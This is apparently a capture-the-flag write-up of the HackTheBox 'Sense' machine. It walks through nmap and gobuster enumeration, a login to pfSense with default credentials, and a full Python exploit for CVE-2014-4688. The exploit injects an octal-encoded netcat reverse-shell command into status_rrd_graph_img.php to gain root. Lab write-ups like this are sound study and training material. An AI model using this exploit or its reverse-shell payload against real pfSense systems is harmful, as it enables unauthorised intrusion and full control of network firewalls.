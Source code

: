 ```yaml
---
title: "HackTheBox - Sense Writeup"
date: 2022-11-13
draft: false
tags: ["CVE-2014-4688", "pfsense-default-creds", "pfsense", "gobuster", "python", "rce"]
htb: "HacktheBox"
freebsd: "FreeBSD"
---
```


## Nmap
Like always, I’m going to scan the IP Address by using [nmap](https://nmap.org/) but I’m going to scan the full port first. Then, I’m going to scan the only open ports.

```sql
nmap -p80,443 -sCV -oN nmap/sense 10.10.10.60

80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/

443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
```

Well, only `2` ports are open, which is port `80` and `443`. Based on the port and service itself, looks like I'm dealing with the webserver this time. However, the scan results show me that the `url` on port `80` has been redirected to port `443` which is the `HTTPS` port.

## Https: Pfsense
I've navigated to port `443` on my browser and accepted the `SSL` certificates. I'll check the certificate and nothing useful for me. Turn's out, it is a [Pfsense](https://www.pfsense.org/) login page. Then, I'll try login in with the default credentials which is `admin:pfsense` and nothing unveil. By the look at the `index` page extension, this is a `PHP` webpage.

![pfsense login page](login-page.png)

### Gobuster
Then, I run the [gobuster](https://github.com/OJ/gobuster) to enumerate more on this webserver. Unfortunately, I can't find anything useful and it's just found empty directories. So, I ended up putting a bunch of extensions such as `php,txt,html,cgi` for the second scan, and it manage to find "gold".

![gobuster scan](gobuster-scan.png)

### Https: /changelog.txt
The first file that caught my attention is called `changelog.txt`. Upon expecting the file it says `"2 of 3 vulnerabilities have been patched"`. This gives me an idea of this particular version having a severe flaw that hasn't been patched. I have 1/3 luck here, to find which one of the flaws is.

![changelog text](changelog-txt.png)

### Https: /system-users.txt
Anyways, I've navigated to another text file called `system-users.txt` which leaks the username. However, the password says `"company defaults"`. Then, it makes me think it could be the box name which is `sense` just like [nibbles](https://shafiqaiman.com/hackthebox-nibbles-writeup/) box that I did before, or the default [Pfsense](https://www.pfsense.org/) credentials which is `pfsense`.

![system users text](system-users-txt.png)

### Https: Pfsense/Dashboard
I'll try both credentials and the correct one is `pfsense` and it looks just like a generic pfsense dashboard, what do I expect :). However, it has the version number sitting in front of me which is `2.1.3-RELEASE`.

![version number](version-number.png)

## Foothold: CVE-2014-4688
Since this is an old box, I immediately find the exploit and cve with it. This vulnerability is assigned to [CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688) and the description says `"this CVE assign to 3 vulnerabilty found in pfsense"`. However, one of them did not patch as the `changelog.txt` file expose to me. Luckily, I find this [exploit](https://www.exploit-db.com/exploits/43560) on [exploit-db](https://www.exploit-db.com/). Which explores the vulnerability in post-authentication in the `status_rrd_graph_img.php` page but again I want to be "l33t" and create my exploits by copying the existent exploits. (Why not? lol). Credited to Ryan McFarland aka [absolomb](https://www.absolomb.com/) and here are the results.

```python
#!/usr/bin/env python3
import sys
import argparse
import requests
from bs4 import BeautifulSoup as bs
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = argparse.ArgumentParser()
parser.add_argument('-U', '--username', metavar='', help='Username')
parser.add_argument('-P', '--password', metavar='', help='Password')
parser.add_argument('-r', '--rhost', metavar='', help='Remote IP')
parser.add_argument('-i', '--lhost', metavar='', help='Listening IP')
parser.add_argument('-p', '--lport', metavar='', help='Listening port')
args = parser.parse_args()

def get_csrf():
    req = requests.get(f"https://{args.rhost}/index.php", verify=False)
    soup = bs(req.text, features="lxml")
    csrf = soup.find('input', {'name':'__csrf_magic'})['value']
    return csrf

def payload(ip, port):
    payload = ""
    command = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc {ip} {port} > /tmp/f"
    for char in command:
        payload += ("\\" + oct(ord(char)).lstrip("0o"))
    return payload

if __name__ == '__main__':
    try:
        s = requests.Session()
        csrf = get_csrf()
        payload = payload(args.lhost, args.lport)

        data = {'__csrf_magic':csrf, 'usernamefld':args.username, 'passwordfld':args.password, 'login':'Login'}
        req = s.post(f"https://{args.rhost}/index.php", data=data, verify=False)
        print(f"LOGIN... {req.status_code}")

        print("Trying to exploit...")
        req = s.get(f"https://{args.rhost}/status_rrd_graph_img.php?database=queues;printf+'{payload}'|sh", verify=False)
        print("If you see this, it's doesn't work!")
    except (KeyboardInterrupt, requests.exceptions.ConnectionError) as Error:
        sys.exit()
```

![root](root.png)

BOOM! root baby! this is because firewall applications tend to be installed under root privilege.